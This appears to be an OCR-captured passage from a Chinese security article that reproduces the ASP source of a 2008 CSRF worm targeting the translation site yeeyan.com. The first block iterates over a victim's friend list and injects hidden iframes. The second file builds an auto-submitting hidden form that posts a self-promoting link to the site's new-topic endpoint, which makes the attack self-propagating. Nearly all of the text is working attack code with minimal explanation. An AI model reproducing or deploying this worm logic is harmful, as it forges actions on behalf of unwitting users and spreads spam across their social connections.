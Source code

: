 ```
            f(i)    = Mid(farray(i),6,Len(farray(i)) - 16)
        Next    

        Set http = Nothing    

        s        = ""    

        For i = 0 To UBound(farray) - 1
            s       = s + "<iframe width=0 height=0 src='yeeyan_iframe.asp?id=" & f(i) & "'></iframe>" '接着循环遍历好友列表，使用iframe发起CSRF攻击
        Next    

        Response.Write(s)    

        ' Set http=Server.CreateObject("Microsoft.XMLHTTP")        

        ' http.open "POST","http://www.yeeyan.com/groups/newTopic/",False        

        ' c = "hello"        

        cc = "data[Post][content]=" & c & "&" & "ymsgee=" & f(0) & "&" & "ymsgee_username=" & f(0)    

        ' http.send cc        

    End If     
%>

```

其中yeeyan_iframe.asp代码如下：

```
<%
'author: Xlaile
'date: 2008-09-21
'this is the CSRF Worm of www.yeeyan.com
'id = Request("id")    

s = "<form method='post' action='http://www.yeeyan.com/groups/newTopic/' onsubmit='return false'>"    

s = s+"<input type='hidden' value='The delicious Tools for yeeyan translation:http://127.0.0.1/yeeyan.asp' name='data[Post][content]'/>    

s = s+"<input type='hidden' value=" + id + " name='ymsgee'/>"    

s = s+"<input type='hidden' value=" + id + " name='ymsgee_username'/>    

s = s+"</form>"    

s = s+"<script>document.forms[0].submit();</script>"    

Response.write(s)    

%>

```

